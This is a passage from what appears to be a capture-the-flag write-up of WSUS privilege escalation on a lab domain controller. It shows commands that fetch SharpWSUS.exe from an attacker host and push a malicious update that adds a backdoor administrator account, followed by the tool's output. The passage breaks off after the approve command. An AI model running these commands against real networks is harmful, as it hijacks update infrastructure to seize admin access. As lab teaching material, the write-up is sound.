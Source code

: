 Waiting for a few minutes and still nothing happens.. there seems to be something wrong on our end as when reading about WSuspicious it should also force look for updates:

>_"[WSuspicious](https://github.com/GoSecure/wsuspicious) is a C# program that takes the place of the user local proxy and forces the computer to look for updates while intercepting the WSUS traffic to inject a malicious payload."_


### Step 3
Looking on other tools we find [SharpWSUS](https://github.com/nettitude/SharpWSUS). Compile it, upload to target and exploit the target to create a new administrator user.

```powershell
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/SharpWSUS.exe -o C:\Windows\Tasks\SharpWSUS.exe


*Evil-WinRM* PS C:\Windows\Tasks> .\SharpWSUS.exe create /payload:'C:\Windows\Tasks\PsExec64.exe' /args:'-accepteula -s -d cmd.exe /c \"net user 0xpthree Password123! /add && net localgroup Administrators 0xpthree /add && net localgroup Remote Management Users 0xpthree /add"'

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Windows\Tasks\PsExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c "net user 0xpthree Password123! /add && net localgroup Administrators 0xpthree /add && net localgroup Remote Management Users 0xpthree /add"
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &amp;quot;net user 0xpthree Password123! /add &amp;amp;&amp;amp; net localgroup Administrators 0xpthree /add &amp;amp;&amp;amp; net localgroup Remote Management Users 0xpthree /add&amp;quot;

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 54
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 55
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete


*Evil-WinRM* PS C:\Windows\Tasks> ./SharpWSUS.exe approve /updateid:073f32f7-8d0d-431c-9f43-7758157fe39b /computername:dc.outdated.htb /groupname:"Administrators"

[*] Action: Approve Update

```